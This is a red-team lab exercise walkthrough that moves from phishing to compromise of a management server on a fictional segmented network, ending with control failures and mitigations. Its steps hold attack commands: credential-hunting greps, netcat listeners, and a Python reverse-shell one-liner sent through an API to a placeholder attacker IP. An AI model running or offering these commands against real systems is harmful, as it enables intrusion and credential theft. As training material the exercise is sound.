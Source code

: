 # Operation Broken Trust

Objective: Simulate a sophisticated adversary leveraging trusted internal relationships and application weaknesses to move laterally through a segmented lab network, culminating in the compromise of a secured management server.

Scenario: The MycoSec internal lab network is segmented into trust zones, including a development virtual local area network and a secured management virtual local area network. Development servers possess trusted relationships with management systems for deployment tasks. The goal is to pivot from a low-value development server to a high-value management server.

## Phase 1: Initial Compromise Via Weaponised Document

Goal: Gain initial code execution on a developer workstation by exploiting a malicious document.

Instructions:

1.  Deploy The Phishing Lure:
    *   An attacker-controlled server hosts a weaponised macro-enabled document named `Q2_Research_Objectives.docm`.
    *   The document is distributed via a targeted phishing email to a MycoSec developer.

2.  Trigger The Payload:
    *   The developer enables macros, executing the embedded code.
    *   The macro establishes a reverse Hypertext Transfer Protocol Secure shell to the attacker's command and control server.

3.  Establish Foothold:
    *   On the attacker virtual machine, receive the incoming shell connection.
    *   Command: `sudo nc -nvlp 443`
    *   Verification: A command prompt from the developer workstation is received.
    *   Workstation Hostname: `[Discover This]`

Checkpoint: Initial access is achieved on a domain-joined Linux workstation.

## Phase 2: Local Reconnaissance And Credential Discovery

Goal: Discover credentials, keys, or configuration files that grant access to other internal systems.

Instructions:

1.  Examine User History And Files:
    *   Search the user's home directory for files containing passwords or keys.
    *   Command: `grep -r -i "password\|passwd\|key" ~/ 2>/dev/null`
    *   Finding: A file `.env` contains a plaintext password for a service account.
    *   Service Account Password: `[Discover This]`

2.  Inspect Running Processes And Network Connections:
    *   Look for connected systems or authentication tokens.
    *   Command: `netstat -antp | grep ESTABLISHED`
    *   Finding: An established connection is observed to an internal server on port 22. Note the Internet Protocol address.
    *   Internal Server Internet Protocol: `[Discover This]` (Note as `DEV_SERVER`)

3.  Check For Secure Shell Trust Relationships:
    *   Look for authorised keys or known hosts.
    *   Command: `cat ~/.ssh/authorized_keys` and `cat ~/.ssh/known_hosts`
    *   Finding: The `known_hosts` file contains the fingerprint of the `DEV_SERVER`.

Checkpoint: Credentials and a potential lateral movement target are identified.

## Phase 3: Lateral Movement To Development Server

Goal: Use discovered credentials to authenticate to and compromise an internal development server.

Instructions:

1.  Test Credentials On Target Service:
    *   Attempt to authenticate to the `DEV_SERVER` using the discovered service account password via Secure Shell.
    *   Command: `ssh service_account@DEV_SERVER`
    *   Password: `[Service Account Password]`
    *   Verification: Secure Shell access is granted to the development server.

2.  Enumerate Server Role And Function:
    *   Determine the purpose of this server and its privileges.
    *   Command: `sudo -l` and `find / -name ".git" -type d 2>/dev/null`
    *   Finding: The server hosts a Git repository for an internal administration tool. The user can run a specific Python script as root.

Checkpoint: Access is achieved to a more privileged development server hosting source code.

## Phase 4: Exploitation Of Build Mechanism

Goal: Exploit the server's function to gain privileged credentials for the management zone.

Instructions:

1.  Review The Administration Tool Code:
    *   Inspect the Git repository to understand the tool's function.
    *   Command: `cd /opt/management_tool && git log --oneline`
    *   Finding: The tool contains a hardcoded credential for authenticating to the management application programming interface.

2.  Extract Hardcoded Credentials:
    *   Search the source code for keywords related to authentication.
    *   Command: `grep -r -i "token\|api_key\|auth" /opt/management_tool/ 2>/dev/null`
    *   Finding: A file `config.py` contains an application programming interface uniform resource identifier and a token.
    *   Management Application Programming Interface Token: `[Discover This]`

3.  Identify The Management Server:
    *   From the configuration file, note the address of the management application programming interface.
    *   Management Application Programming Interface Host: `[Discover This]` (Note as `MGMT_SERVER`)

Checkpoint: Credentials for the management network are discovered within the application's source code.

## Phase 5: Compromise Of Management Server

Goal: Use the extracted application programming interface token to access the management server and achieve full compromise.

Instructions:

1.  Query The Management Application Programming Interface:
    *   From the development server, query the management application programming interface to test the token.
    *   Command: `curl -H "Authorization: Bearer [API_TOKEN]" https://MGMT_SERVER/api/v1/systems/`
    *   Finding: The command returns a list of all systems managed by the platform.

2.  Exploit Application Programming Interface Functionality:
    *   The application programming interface has a command execution endpoint for remote administration.
    *   Command: `curl -X POST -H "Authorization: Bearer [API_TOKEN]" -H "Content-Type: application/json" -d '{"command": "whoami"}' https://MGMT_SERVER/api/v1/command/`
    *   Verification: The command executes successfully and returns `root`.

3.  Establish A Reverse Shell:
    *   Use the application programming interface to launch a reverse shell payload back to the attacker machine.
    *   Command: `curl -X POST -H "Authorization: Bearer [API_TOKEN]" -H "Content-Type: application/json" -d '{"command": "python3 -c \\"import os, socket, subprocess; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect((\\"[ATTACKER_IP]\\",4444)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); subprocess.call([\\"/bin/sh\\",\\"-i\\"]);\\""}' https://MGMT_SERVER/api/v1/command/`

4.  Receive The Shell:
    *   On the attacker virtual machine, receive the root shell connection from the management server.
    *   Command: `sudo nc -nvlp 4444`
    *   Verification: A root shell on the management server is received.
    *   Final Hostname: `[Discover This]`

Final Report: Document all the `[Discover This]` fields. Analyse the critical control failures:
1.  Insufficient User Training: A user enabled macros on an untrusted document.
2.  Hardcoded Credentials: Plaintext passwords and application programming interface tokens were stored within source code and configuration files.
3.  Excessive Privileges: A service account used for development had unnecessary access to a production management application programming interface.
4.  Weak Application Programming Interface Security: The management application programming interface did not sufficiently validate commands or implement network-level access controls.

Proposed Mitigations:
1.  Implement Application Allow Listing: Prevent the execution of unauthorised macros and software.
2.  Utilise A Secrets Management Solution: Replace all hardcoded credentials with dynamically injected secrets from a secure vault.
3.  Enforce Strict Network Segmentation: Ensure that development systems cannot initiate connections to management systems without explicit justification and proxy-based inspection.
4.  Harden Application Programming Interfaces: Implement strict input validation and require multi-factor authentication for privileged application programming interface endpoints.

